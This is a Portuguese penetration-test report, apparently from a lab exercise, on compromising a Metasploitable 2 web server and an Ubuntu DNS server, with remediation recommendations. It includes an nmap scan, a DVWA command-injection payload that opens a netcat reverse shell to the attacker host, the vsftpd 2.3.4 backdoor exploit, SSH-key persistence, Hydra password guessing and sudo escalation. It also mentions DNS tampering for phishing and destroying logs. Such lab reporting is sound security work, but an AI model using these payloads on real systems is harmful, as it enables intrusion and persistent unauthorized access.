







## Severidade e Complexidade

Foram estabelecidos três níveis de severidade para a classificação da Severidade das vulnerabilidades, juntamente com o nível de complexidade de reprodução de seus respectivos ataques:

| Índice | Severidade | Descrição
|-|-|-|
|3|Alta|Vulnerabilidade que permite acesso não autorizado a informações relevantes, negação de serviço e prejuízos (tanto financeiros quanto à imagem da Empresa).
|2|Média|Vulnerabilidade que permite acesso a informações relevantes, as quais podem ser utilizadas para se descobrir vulnerabilidades de nível alto.
|1|Baixa|Vulnerabilidade que permite acesso a informações não precisas ou pouco relevantes.

## Complexidade

A tabela a seguir descrever brevemente a classificação dos níveis de Complexidade dos Ataques:

| Índice | Severidade | Descrição
|-|-|-|
|1|Alta|O ambiente não aparenta demonstrar todas as condições favoráveis para que o ataque obtenha uma grande quantidade de dados sensíveis ou demanda tempo de exploração maior que o tempo de projeto.
|2|Média|O ambiente demonstra algumas condições favoráveis ao ataque, porém demandará maior espaço de tempo para a realização dos ataques.
|3|Baixa|O ambiente apresenta todas as condições favoráveis para que o ataque ocorra e seja possível obter informações sensíveis.

## Exploração

Para começar a exploração da rede interna, o time atacante realizou um scan na rede com o intuito de descobrir os hosts ali presentes, assim como portas abertas, serviços e versões destes. Portanto fez-se uso da ferramenta “NMAP” (Network Mapper), utilizando do seguinte código: 
```bash
nmap -sS –sV -p- 172.22.22.0/24
```
O resultado desse scan foi mostrado na figura logo abaixo:



Escaneando por hosts, portas abertas, serviços em execução e “Syn scan”, o qual possui a função de ser rápido e não completar o “Three-way Handshake” do protocolo TCP, gerando desta forma menos logs no sistema alvo. 

O time atacante possuiu como foco principal o comprometimento do host 172.22.22.97 (Servidor Web – Metasploitable 2), o qual já é bastante conhecido por suas vulnerabilidades, diante dessa informação foram executados ataques explorando essas brechas de segurança.
 
O primeiro ataque realizado foi no servidor web “DVWA” (Damn Vulnerable Web Application) que estava em execução no host. Esse ataque foi feito explorando a vulnerabilidade de “Command Injection”, vulnerabilidade esta pertencente a classe de “Injection” presente na terceira posição do projeto “OWASP Top Ten" de 2021. Esta vulnerabilidade foi explorada através do código:
```bash
8.8.8.8; nc –e /bin/bash 10.10.10.99 9999
```

O qual possuiu a função de obter uma shell reversa do servidor web para o atacante (Kali Linux, de IP 10.10.10.99).

Diante do primeiro ataque, obteve-se uma shell do servidor web e então o próximo passo tornou-se em fazer uma escalação de privilégios, saindo do usuário com poucos privilégios para o root do sistema. 

Pensando dessa forma, foi explorada uma vulnerabilidade na versão do serviço FTP da máquina, o qual estava na versão vsftpd 2.3.4, conhecida por possibilitar que um atacante execute um backdoor com a função de command execution. A figura abaixo  mostra essas informações.



Como pode ser observada na imagem acima, o exploit utilizado tem o nome de “vsftpd_234_backdoor” e foi executado com a ferramenta “msfconsole”.

Depois de realizada as configurações necessárias, fez-se a execução do backdoor e foi obtida assim, a shell de usuário root da máquina Metasploitable 2, como mostra a figura logo abaixo.



Depois dessa fase de exploitation, deu início ao post-exploitation com o intuito de conseguir retornar a sessão de root quando for necessário, para isso criou-se uma conjunto de chaves (privada e pública) para o serviço SSH na máquina Kali Linux (atacante), com o intuito de armazenar a chave pública criada na máquina metasploitable 2 para que seja possível fazer um acesso SSH ao usuário root sempre que precisar, sem a necessidade do conhecimento da senha.

### **FTP Anônimo Habilitado**

| Severidade | Complexidade |
|-|-|
|Média|Baixa|

**Descrição da Vulnerabilidade**

Durante o scan foi identificado que o servidor FTP em execução na máquina Metasploitable 2 permite logins anônimos. Portanto, qualquer usuário pode se conectar e se autenticar no servidor sem fornecer uma senha ou credenciais exclusivas. Isso permite que o mesmo acesse todos os arquivos disponibilizados pelo servidor FTP.

**Ferramentas Utilizadas**

* NMAP
* Cliente FTP

**Recomendações**

Desative o login ao serviço de FTP de forma anônima se não for necessário. Verifique regularmente o serviço FTP para garantir que nenhum conteúdo confidencial esteja sendo disponibilizado.

**Referências**

https://www.rapid7.com/db/vulnerabilities/FTP-GENERIC-0002

### **FTP com versão vulnerável (Vulnerable and Outdated Components – OWASP TOP TEN 2021)**

| Severidade | Complexidade |
|-|-|
|Alta|Baixa|

**Descrição da Vulnerabilidade**

Durante o scan foi identificado que o servidor FTP em execução no host Metasploitable 2, estava sendo executado com uma versão desatualizada e vulnerável a command injection.

**Ferramentas Utilizadas**

* NMAP
* Msfconsole (Metasploit)

**Recomendações**

Sempre atualizar os serviços para suas versões mais recentes ou remoção dos que não são necessários, pois manter versões antigas em execução é um risco muito alto que muitas  das vezes leva para um comprometimento do sistema ou até da rede como um todo.

**Referências**

https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/

### **Servidor Apache executando aplicações Vulneráveis**

| Severidade | Complexidade |
|-|-|
|Alta|Baixa|

**Descrição da Vulnerabilidade**

Ao acessar o IP do host servidor web na porta oitenta, foram observadas diversas aplicações vulneráveis, contendo vulnerabilidades de command injection, sql injection, file upload injection, entre outras.

**Recomendações**

Realizar o desenvolvimento seguro das aplicações, realizando testes de intrusão em busca de vulnerabilidades e correções durante o desenvolvimento.

**Referências**

https://owasp.org/www-project-top-ten/

## Exploração Host Ubuntu 16 DNS Server

Após o término do comprometimento total da máquina metasploitable, comecou-se a pensar em formas de atacar o host Ubuntu Server 16 (Servidor DNS). Primeiramente foi feito um scan utilizando da ferramenta NMAP para ter acesso as informações referentes ao host, serviços em execução e portas abertas, como demonstra a figura a seguir:



Para efetuar o ataque fez-se uso do servidor SSH localizado na porta 22 do servidor 172.22.22.200. Como o SSH é protegido por senha, utilizou-se da ferramenta Hydra, conhecida por fazer ataques de dicionário e força bruta, executando o comando demonstrado na figura abaixo:



Para efeitos de demonstração, como o intuito dos ataques é gerar logs, criou-se uma lista de possíveis senhas sendo que uma delas é a senha da máquina Ubuntu Server, pois do contrário tería de ser feito um ataque de força bruta que demoraria bastante tempo para ser concluído, pois teriam de ser testadas diversas possibilidades até chegar na senha correta, a qual possui diversos caracteres, sendo que alguns são especiais. Observando a figura acima, é possível observar que foi encontrada a senha “’S3rv3r200 para o login xs-dns.

Diante das credenciais do usuário “sx-dns”, fez-se o acesso SSH na máquina como demonstrado na imagem a seguir:



Com o acesso ao host foi possível notar que não se possui nenhuma restrição para utilizar o comando “sudo su”, o qual não implica na inserção de senha. Então simplesmente foi executado o comando e obtido o acesso ao usuário root da máquina Ubuntu Server, como demonstrado na imagem abaixo:



A partir desse momento, tendo acesso como usuário root, podem ser enumerados todos os domínios os quais o Ubuntu Server DNS faz a tradução, podendo descobrir os hosts e seus nomes da rede interna através da ferramenta dig por exemplo. Também pode-se fazer o acesso aos arquivos de configuração do Bind9 e alterar os nomes dos domínios para que seja efetuado um ataque de phishing por exemplo, quando um usuário da rede for acessar determinado endereço IP cujo nome foi alterado pelo servidor DNS.

Os próximos passos seriam de fazer essa enumeração de domínios e atacar o Ubuntu Server 22 (ELK) o qual possui e armazena os logs gerados pelos ataques, de forma a destruí-los ou modifíca-los para que perdessem a confidencialidade, integridade e até mesmo a disponibilidade. Por conta do prazo não foi possível completar todos os ataques desejados.

### **Usuário sx-dns consegue escalar privilégios para usuário root ( Security Misconfiguration – OWASP TOP TEN)**

| Severidade | Complexidade |
|-|-|
|Alta|Baixa|

**Descrição da Vulnerabilidade**

Ao acessar o servidor dns com o usuário “sx-dns” utilizando o serviço de ssh, é possível obter uma shell de usuário root apenas digitando o comando “sudo su”. Isso acontece por uma falha na configuração da máquina que permite com que qualquer comando seja executado sem a necessidade de senha, logo pode-se  explorar essa vulnerabilidade trocando para o usuário root sem que seja necessária a senha.

**Recomendações**

Configurar adequadamente as máquinas para que as configurações aplicadas sejam seguras e não deem brechas para escaladas de privilégios.

**Referências**

https://owasp.org/Top10/A05_2021-Security_Misconfiguration/